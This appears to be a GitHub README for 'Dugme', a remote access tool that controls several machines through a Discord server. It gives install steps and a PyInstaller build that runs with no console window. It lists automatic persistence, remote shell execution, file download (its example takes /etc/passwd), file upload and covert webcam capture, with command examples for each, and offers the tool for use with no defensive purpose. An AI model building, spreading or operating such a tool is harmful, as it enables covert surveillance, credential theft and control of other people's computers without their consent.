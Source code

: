 
# Dugme

A discord command on control script to control multiple system from 1 discord server.






![Logo](https://i.imgur.com/Euc1r2V.png)


## Installation

Install and run with python

```bash
  git clone https://github.com/Rahim7x/dugme.git
  cd dugme
  pip install -r requirements.txt
  python dugme.py
```

Create an executable

```bash
pip install pyinstaller
pyinstaller dugme.py --onefile --noconsole --icon settings.ico
```


    
## Features

- Run via python
- Run like any normal executable
- automated peristance
- run any command
- take pictures from webcam
- send any files



## dugme commands

- Check online clients 
```bash
!session
```
- Execute system commands
```bash
!shell.<client_username> ls # For Linux

# Eg :
!shell.agent1 dir
```

- Download file from system
```bash
!getfile.<client_username> /file_path

# Eg :
!getfile.agent1 /etc/passed
```

- upload a file via sendint trough attachments
```bash
!savefile.<client_username> # + Attachment
```

- Take phot via webcam
```bash
!camsnap.client_username
```



## Author

- [@rahim7x](https://www.github.com/rahim7x)

